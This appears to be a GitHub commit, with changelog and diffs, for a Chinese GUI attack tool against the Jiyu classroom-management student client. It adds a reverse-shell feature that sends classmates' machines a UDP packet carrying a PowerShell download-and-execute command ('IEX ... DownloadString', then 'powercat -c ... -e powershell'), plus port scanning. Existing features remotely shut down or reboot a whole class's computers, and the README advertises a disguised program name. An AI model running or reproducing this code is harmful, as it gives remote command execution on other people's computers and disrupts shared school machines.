

v1.1 功能更新
1. **功能更新**
   - 新增`反弹shell` 这个没实测过,能不能用不知道
   - 新增`扫描端口` 可以自动匹配学生端端口,再也不用担心因为版本端口不匹配了

2. **Bug 修复**
   - 修复 `shutdown()` 和 `reboot()` 中 `maxl` 变量未重置问题

diff --git a/attackCore.py b/attackCore.py
@@ -2,6 +2,10 @@ import datetime
 import socket
 from struct import pack
 from time import sleep
+from subprocess import Popen, PIPE
+from re import compile
+import os
+import urllib.request
 
 store = [[0x44, 0x4d, 0x4f, 0x43, 0x00, 0x00, 0x01, 0x00, 0x9e, 0x03, 0x00, 0x00, 0x10, 0x41, 0xaf, 0xfb, 0xa0, 0xe7, 0x52, 0x40, 0x91,
           0xdc, 0x27, 0xa3, 0xb6, 0xf9, 0x29, 0x2e, 0x20, 0x4e, 0x00, 0x00, 0xc0, 0xa8, 0x50, 0x81, 0x91, 0x03, 0x00, 0x00, 0x91, 0x03, 0x00, 0x00, 0x00, 0x08, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00,
@@ -121,3 +125,124 @@ def send(send_list,ip,l=1,p=4705,t=22):
             logger("第%s次执行完毕" % str(times + 1))
             if times != l - 1:
                 sleep(t)
+
+
+# 自动检测极域学生端端口
+def find_student_ports():
+    """检测本机极域学生端使用的端口"""
+    try:
+        hostname = socket.gethostname()
+        ip = socket.gethostbyname(hostname)
+        logger("你的IP:" + ip)
+
+        tasklist = Popen("tasklist|find \"Student\"", stdout=PIPE, shell=True).communicate()[0].decode()
+        pattern = compile(r'[e]\s*\d{1,5}\s*[C]')
+        match = pattern.search(tasklist)
+        if not match:
+            logger("未找到极域进程")
+            return []
+
+        pid = (match.group()[1:-1]).strip()
+        netstat = Popen("netstat -ano |find \"{}\"".format(pid), stdout=PIPE, shell=True).communicate()[0].decode()
+        pattern = compile(r"%s:\d{1,5}\s*[*]{1}" % ip)
+        netstat_pat = pattern.findall(netstat)
+
+        ports = [((i.strip(ip)[1:-1]).rstrip()) for i in netstat_pat]
+        logger("检测到的端口有:" + ','.join(ports))
+        return ports
+    except Exception as e:
+        logger("端口检测失败: " + str(e))
+        return []
+
+def prepare_powercat():
+    """自动下载 powercat.ps1 到本地 p.ps1，若本地已存在则跳过"""
+    if os.path.exists("p.ps1"):
+        logger("[+] 本地已存在 p.ps1，跳过下载")
+        return True
+
+    try:
+        # 从官方仓库下载 powercat.ps1
+        url = "https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1"
+        logger("[*] 正在下载 powercat.ps1 ...")
+        urllib.request.urlretrieve(url, "p.ps1")
+        logger("[+] powercat.ps1 下载成功，已保存为 p.ps1")
+        return True
+    except Exception as e:
+        logger("[-] 下载 powercat.ps1 失败: " + str(e))
+        logger("[!] 请手动将 powercat.ps1 放入当前目录并重命名为 p.ps1")
+        return False
+
+# 反弹shell
+def get_shell(target_ip, local_ip=None):
+    """
+    向目标发送反弹shell命令
+    自动准备 p.ps1，启动 HTTP 服务器，并启动本地监听器
+    """
+    if local_ip is None:
+        try:
+            hostname = socket.gethostname()
+            local_ip = socket.gethostbyname(hostname)
+        except:
+            logger("[-] 无法自动获取本地IP，请手动指定")
+            return
+
+    logger("[*] 目标IP: " + target_ip)
+    logger("[*] 本地IP: " + local_ip)
+
+    # 1. 准备 p.ps1 文件
+    if not prepare_powercat():
+        logger("[-] p.ps1 准备失败，反弹shell中止")
+        return
+
+    # 2. 启动 HTTP 服务器（在后台新窗口运行，提供 p.ps1 下载）
+    try:
+        # 检测 8000 端口是否已被占用，简单尝试启动，若失败则提示手动启动
+        import subprocess
+        # 在 Windows 下用新窗口启动简易 HTTP 服务器
+        subprocess.Popen(
+            ["python", "-m", "http.server", "8000"],
+            creationflags=subprocess.CREATE_NEW_CONSOLE,
+            stdout=subprocess.DEVNULL,
+            stderr=subprocess.DEVNULL
+        )
+        logger("[+] HTTP 服务器已启动 (端口 8000)，请确保防火墙允许入站")
+    except Exception as e:
+        logger("[!] 自动启动 HTTP 服务器失败: " + str(e))
+        logger("[!] 请手动在命令行执行: python -m http.server 8000")
+
+    # 3. 构造反弹shell命令
+    url = "http://{}:8000/p.ps1".format(local_ip)
+    # 注意：powercat 加载后执行反向连接
+    cmd = (
+        "powershell -c "
+        "IEX (New-Object Net.WebClient).DownloadString('{}'); "
+        "powercat -c {} -p 65535 -e powershell"
+    ).format(url, local_ip)
+
+    logger("[*] 命令长度: " + str(len(cmd)) + " 字符")
+    logger("[*] 正在向目标发送反弹shell命令...")
+
+    # 4. 发送命令
+    send_list = pkg_sendlist('-c', cmd)
+    send([send_list], target_ip, l=1, p=4705, t=1)
+
+    # 5. 启动本地监听器（新窗口）
+    try:
+        listener_cmd = (
+            "powershell -c "
+            "IEX (New-Object Net.WebClient).DownloadString('http://{}:8000/p.ps1'); "
+            "powercat -l -p 65535"
+        ).format(local_ip)
+
+        subprocess.Popen(
+            listener_cmd,
+            creationflags=subprocess.CREATE_NEW_CONSOLE,
+            shell=True,
+            stdout=subprocess.DEVNULL,
+            stderr=subprocess.DEVNULL
+        )
+        logger("[+] 本地监听器已启动 (端口 65535)，请查看新弹出的 PowerShell 窗口")
+        logger("[*] 若目标成功执行，监听器窗口将收到反弹 shell")
+    except Exception as e:
+        logger("[!] 启动监听器失败: " + str(e))
+        logger("[!] 请手动执行: powercat -l -p 65535")

diff --git a/UDP_Attack.py b/UDP_Attack.py
@@ -58,11 +58,18 @@ class Ui_UDPAttacker(object):
                                         hover_color="#1B5E20")
         self.pushButton.grid(row=3, column=1, padx=5, pady=10, sticky="ew")
 
+        # 新加一行：获取Shell 和 扫描学生端端口
+        self.pushButton_shell = ctk.CTkButton(
+            self.groupBox_2344, text="Shell", height=32,
+            fg_color="#1565C0", hover_color="#0D47A1"
+        )
+        self.pushButton_shell.grid(row=4, column=0, columnspan=2, padx=5, pady=(0, 10), sticky="ew")    
+
         # --- 右侧面板 (参数配置) ---
         self.groupBox_33 = ctk.CTkFrame(UDPAttacker)
         self.groupBox_33.grid(row=1, column=1, sticky="nsew", padx=8, pady=8)
         self.groupBox_33.grid_columnconfigure(0, weight=1)
-        self.groupBox_33.grid_columnconfigure(1, weight=1)
+        self.groupBox_33.grid_columnconfigure(1, weight=0)
         # 配置行权重，使两个大输入框平分剩余空间
         self.groupBox_33.grid_rowconfigure(5, weight=1)
         self.groupBox_33.grid_rowconfigure(6, weight=1)
@@ -70,7 +77,19 @@ class Ui_UDPAttacker(object):
         # IP 输入框：通过 columnspan=2 占满整行，并设置默认值
         self.textEdit = ctk.CTkEntry(self.groupBox_33, placeholder_text="IP (分号隔开)", height=35)
         self.textEdit.insert(0, "192.168.")
-        self.textEdit.grid(row=0, column=0, columnspan=2, padx=10, pady=10, sticky="ew")
+        self.textEdit.grid(row=0, column=0, padx=10, pady=10, sticky="ew")
+
+        # 扫描学生端口：
+        self.pushButton_scan_port = ctk.CTkButton(
+            self.groupBox_33,
+            text="⎋",
+            width=35,          # 小尺寸
+            height=30,
+            fg_color="#6A1B9A",
+            hover_color="#4A148C",
+            font=("Segoe UI Symbol", 14)  # 确保符号显示
+        )
+        self.pushButton_scan_port.grid(row=0, column=1, padx=(0, 10), pady=10, sticky="e")
 
         # 按钮容器：让 OFF (pushButton_2) 和 OFFline (pushButton_3) 并排
         btn_frame = ctk.CTkFrame(self.groupBox_33, fg_color="transparent")
@@ -254,6 +273,8 @@ class UDPAttack(ctk.CTk, Ui_UDPAttacker):
         self.pushButton_2.configure(state=state)  # OFF
         self.pushButton_3.configure(state=state)  # OFFline
         self.pushButton_4.configure(state=state)  # 扫描IP
+        self.pushButton_shell.configure(state=state)  # 获取Shell
+        self.pushButton_scan_port.configure(state=state)  # 扫描学生端端口
 
     def scanIP(self):
         self.log_message(f"[{datetime.datetime.now().strftime('%H:%M:%S')}] 开始扫描局域网IP...")
@@ -328,6 +349,7 @@ class UDPAttack(ctk.CTk, Ui_UDPAttacker):
     def shutdown(self):
         self.stop_flag = False  # 每次启动前重置
         self.set_buttons_state("disabled")  # 开始时全部禁用
+        self.maxl = 0  # 【关键】每次关机前重置长度填充
         try:
             """构造关机命令包并发送给对方"""
             ip_raw = self.get_ip_text()
@@ -369,6 +391,7 @@ class UDPAttack(ctk.CTk, Ui_UDPAttacker):
         self.stop_flag = False  # 每次启动前重置
         """构造重启命令包并发送给对方"""
         self.set_buttons_state("disabled")  # 开始时全部禁用
+        self.maxl = 0  # 【关键】每次重启前重置长度填充
         try:
             ip_raw = self.get_ip_text()
             if not ip_raw:
@@ -410,6 +433,51 @@ class UDPAttack(ctk.CTk, Ui_UDPAttacker):
             self.running = 0
             self.pushButton_4.configure(text="扫描IP")
 
+    def getShell(self):
+        """获取反弹shell"""
+        self.stop_flag = False
+        self.set_buttons_state("disabled")
+        try:
+            ip_raw = self.get_ip_text()
+            ip_list = [ip.strip() for ip in ip_raw.split(";") if ip.strip()]
+            if not ip_list:
+                self.log_message("请输入目标IP")
+                return
+
+            target_ip = ip_list[0]
+            self.log_message("目标IP: " + target_ip)
+
+            # 获取本地IP
+            local_ip = socket.gethostbyname(socket.gethostname())
+            self.log_message("本地IP: " + local_ip)
+
+            attackCore.get_shell(target_ip, local_ip)
+            self.log_message("反弹shell操作完成")
+        except Exception as e:
+            self.log_message("获取Shell出错: " + str(e))
+        finally:
+            self.set_buttons_state("normal")
+
+    def scanStudentPort(self):
+        """扫描学生端端口，并自动填入界面端口输入框"""
+        self.stop_flag = False
+        self.set_buttons_state("disabled")
+        try:
+            ports = attackCore.find_student_ports()
+            if ports:
+                # 取第一个检测到的端口，自动填入界面的端口输入框
+                first_port = ports[0]
+                self.spinBox_2.delete(0, "end")
+                self.spinBox_2.insert(0, first_port)
+                self.log_message("检测到学生端端口: " + ", ".join(ports))
+                self.log_message(f"已自动将端口设置为 {first_port}")
+            else:
+                self.log_message("未检测到端口，请手动填写端口 (常见 4705/4706/4988)")
+        except Exception as e:
+            self.log_message("扫描端口出错: " + str(e))
+        finally:
+            self.set_buttons_state("normal")
+
 # 程序启动
 def open_udp():
     app = UDPAttack()
@@ -419,6 +487,8 @@ def open_udp():
     app.pushButton.configure(command=lambda: Thread(target=app.sendMessage, daemon=True).start())
     app.pushButton_2.configure(command=lambda: Thread(target=app.shutdown, daemon=True).start())
     app.pushButton_3.configure(command=lambda: Thread(target=app.reboot, daemon=True).start())
+    app.pushButton_shell.configure(command=lambda: Thread(target=app.getShell, daemon=True).start())
+    app.pushButton_scan_port.configure(command=lambda: Thread(target=app.scanStudentPort, daemon=True).start())
 
     app.bind("<Alt-s>", lambda e: Thread(target=app.sendMessage, daemon=True).start())
     # 绑定 Alt+P 为终止功能

diff --git a/README.md b/README.md
@@ -33,6 +33,8 @@
 | 🎨 **现代暗色 UI** | 深色主题设计,扁平化UI,富有现代感 |
 | 🌐 **多线程并发** | 如果你把所有ip用;隔开塞进去,那么就能实现一秒内全班关机 |
 | 👻 **伪装命名** | 这个不多说 |
+| ⎋ **扫描端口**| 自动匹配学生端端口 |
+| ⌥ **反弹shell** | 这个没实测过,能不能用不知道 |
 
 </div>
 